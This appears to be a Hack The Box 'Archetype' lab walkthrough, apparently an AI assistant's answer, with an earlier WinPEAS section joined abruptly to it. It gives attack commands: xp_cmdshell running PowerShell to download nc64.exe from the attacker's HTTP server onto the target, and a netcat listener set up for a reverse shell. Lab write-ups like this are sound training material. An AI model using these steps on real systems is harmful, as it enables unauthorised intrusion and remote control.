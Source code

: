 ## 2. Getting WinPEAS to the Target

First, you need to download WinPEAS on your attack machine and then transfer it to the target:

```bash
# On your attack machine
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230423/winPEASx64.exe
```

Then set up a simple HTTP server on your attack machine:

```bash
python3 -m http.server 80
```
# Uploading nc64.exe to the Target Machine

You're right - we need to upload nc64.exe to the target machine before we can use it. Here's how to do it step by step:

## 1. Prepare Your Attack Machine

You've already done these steps:
- You have nc64.exe in ~/htb/archetype/nc64.exe
- You've started a Python HTTP server with `sudo python3 -m http.server 80`

## 2. Upload nc64.exe Using xp_cmdshell

Now, you need to use the SQL Server's xp_cmdshell to download the file from your HTTP server to the target machine:

```sql
-- In your SQL Server session (where you're already connected with impacket-mssqlclient)
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://YOUR_IP_ADDRESS/nc64.exe -outfile nc64.exe"
```

Replace YOUR_IP_ADDRESS with your attack machine's IP address (your HTB VPN IP, not 127.0.0.1).

## 3. Verify the Upload

You can verify that the file was uploaded successfully:

```sql
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; dir"
```

You should see nc64.exe in the directory listing.

## 4. Set Up a Netcat Listener

In a new terminal on your attack machine, start a netcat listener:

```bash
sudo nc -lvnp 443
```
